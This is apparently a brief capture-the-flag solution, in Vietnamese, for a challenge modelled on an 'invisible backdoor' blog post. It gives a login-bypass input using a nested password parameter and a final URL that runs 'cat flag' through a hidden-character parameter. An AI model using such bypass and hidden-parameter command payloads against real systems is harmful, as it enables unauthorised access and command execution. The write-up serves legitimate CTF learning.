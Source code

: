 # Solution

Đề bài lấy ý tưởng từ bài [post](https://certitude.consulting/blog/en/invisible-backdoor/
).

bypass login với: `username=admin&password[password]=1`

final payload: `https://typhooncon-hiddencharacter.chals.io/d2d9926e2e734a53?%E3%85%A4=cat%20flag`

